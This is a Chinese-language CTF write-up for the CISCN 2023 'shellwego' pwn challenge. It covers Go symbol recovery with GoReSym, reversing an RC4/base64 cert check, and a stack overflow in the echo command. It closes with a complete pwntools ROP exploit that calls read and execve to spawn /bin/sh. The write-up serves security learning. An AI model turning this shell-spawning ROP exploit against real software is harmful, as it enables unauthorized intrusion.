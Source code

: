 ```yaml
---
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/). 


title: ciscn2023 shellwego writeup
date: 2023-05-31 11:25:36
tags:
- CTF
- pwn
- stack
- ciscn2023
categories:
- pwn-wp
---
```


# ciscn2023 shellwego writeup

这题是go语言程序 感觉逆向的占比大于pwn...
## 0x1 checksec 查看安全保护

![img](checksec.png)  
没开PIE， 而且可以发现程序是静态链接的

## 0x2 ida 分析
![img](0x2.png)

无符号表，难以分析，尝试利用

## 0x3 恢复符号表
### 0x3-1 查看程序go版本
两种方式： 
1. Shift+F12打开字符串窗口，搜索`go` 可以看到版本信息
2. 在命令行执行 `strings shellwego | grep "go"`

可以看到版本为go1.20.4
![img](0x3-1.png)

### 0x3-2 尝试利用IDA signature库进行比对恢复
> IDA 可以根据选定signature库中的函数签名特征与当前程序各函数进行匹配  从而恢复函数名
1. Shift+F5打开Signatures窗口
2. 右键点击 `Apply new signature...`
3. 点击 `Search` 搜索 `go`
4. 发现只有一个 `go_std` 仅可用于 `go1.10-1.16`， 不可行
![img](0x3-2.png)

### 0x3-3 搜索 `ida go1.20 signature`
发现工具 [GoReSym](https://www.google.com.hk/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjk55Gv_qD_AhWgcGwGHSR4BicQFnoECBQQAQ&url=https%3A%2F%2Fgithub.com%2Fmandiant%2FGoReSym&usg=AOvVaw1kELKyeJ37LXczOk3Yd8pk) （也可以试试其他符号恢复方法）

使用：
1. 下载程序 [Release](https://github.com/mandiant/GoReSym/releases/)
2. 执行并生成结果json文件  `GoReSym.exe -t -d -p /path/to/shellwego > output.json`
3. 下载IDA脚本文件 [goresym_rename.py](https://github.com/mandiant/GoReSym/blob/master/IDAPython/goresym_rename.py)
4. IDA 点击 File -> Script File 选择 `goresym_rename.py` 再选择刚才输出的 `output.json` IDA就能自动恢复函数名了

![img](0x3-3.png)

前后对比可以看到恢复效果非常理想

![img](0x3-32.png)

## 0x4 程序分析
### 0x4-1 进入main_main函数，可以看到程序先输出 `ciscnshell$`，再获取输入，然后调用函数 `main_unk_func0b05`
![img](0x4-1.png)

### 0x4-2 进入`main_unk_func0b05`函数
- 发现很多cmp和类似字符串16进制的dword
点击16进制数再按R键，显示字符串  但由于数据是以dword解释的，所以字符串颠倒  
- 尝试执行程序发现输出`Cert Is A Must` 所以先来看cert命令  按照程序流程可见应该还要输入 `nAcDsMic`+`N` 也就是 `nAcDsMicN`  
- 但是如果只输入 `cert nAcDsMicN` 会出现提示 `Missing parameter`， 明显是要三个参数  
- 再看函数流图发现之后去到函数`main_unk_func0b01`
![img](0x4-2.png)

### 0x4-3 进入`main_unk_func0b01`函数
同样方法转换字符串，可以发现大致流程：
1. key="F1nallB1B1rd3K3y"
2. rc4 加密
3. base64 加密
4. 与字符串"JLIX8pbSvYZu/WaG"比较，若相同则认证成功
![img](0x4-3.png)

### 0x4-4 cert me in
很明了了，先base64解密成byte数组， 再用已知key通过rc4解密  最后得到 `S33UAga1n@#!`  
执行程序输入 `cert nAcDsMicN S33UAga1n@#!`， 成功通过验证

### 0x4-5 回到`main_unk_func0b05`函数
尝试执行函数中提到的不同命令，可以`cat flag`但是是假的flag
发现仅echo命令存在可能漏洞（main_unk_func0b04中）

### 0x4-6 进入`main_unk_func0b04`函数
![img](0x4-4.png)
结合动态调试发现：
1. echo后面的单个连续单词长度不能超过0x200
2. 单词会去掉空格拼接起来复制到栈上， 存在栈溢出漏洞
3. 遇到`+`不复制

## 0x5 exploit
直接栈溢出到ret_addr会出现Segmentation Fault，调试分析问题出现在指令`movzx edx, byte ptr [rbx+rax]`  
![img](0x4-5.png)

原因rbx从栈上取了一个地址值，而我们改写了栈使其不再是有效地址值，所以解析的时候会报段错误
绕开方式： 刚好遇到 `+` 不会复制，也就保留原来的值

```python
from pwn import *
context.log_level='debug'

filename = './shellwego'
proc = process(filename)
belf = ELF(filename)

gscript = '''
    b * 0x0000000004C1882
    c
'''
# gdb.attach(proc, gdbscript=gscript)

# gadget 查看pop_ret对，用于构造pop链
poprdi_ret = 0x444fec
poprsi_ret = 0x41e818
poprdx_ret = 0x49e11d
poprax_ret = 0x40d9e6
syscall = 0x40328c

proc.sendlineafter(b'ciscnshell$ ', b'cert nAcDsMicN S33UAga1n@#!')

#每个单词长度不超过0x200
#payload具体溢出长度可通过动态调试观察得到
payload = b'echo '+b'h'*0x100+b' '+b'h'*0x103

# 避开影响地址
payload += b'+' * 8

# 调用syscall 0 即read 到0x59FE70 上
# 具体syscall调用规则查看：https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md
payload += p64(0xdeadbeefdeadbeef) * 3
payload += p64(poprdi_ret) + p64(0)
payload += p64(poprax_ret) + p64(0)
payload += p64(poprsi_ret) + p64(0x59FE70)
payload += p64(poprdx_ret) + p64(20)
payload += p64(syscall)

#syscall 59 即execve
payload += p64(poprax_ret) + p64(59)
payload += p64(poprdi_ret) + p64(0x59FE70)
payload += p64(poprsi_ret) + p64(0)
payload += p64(poprdx_ret) + p64(0)
payload += p64(syscall)

proc.sendlineafter(b'# ', payload)
proc.send(b"/bin/sh\x00")
proc.interactive()
pause()

```

> 个人博客 https://antel0p3.github.io/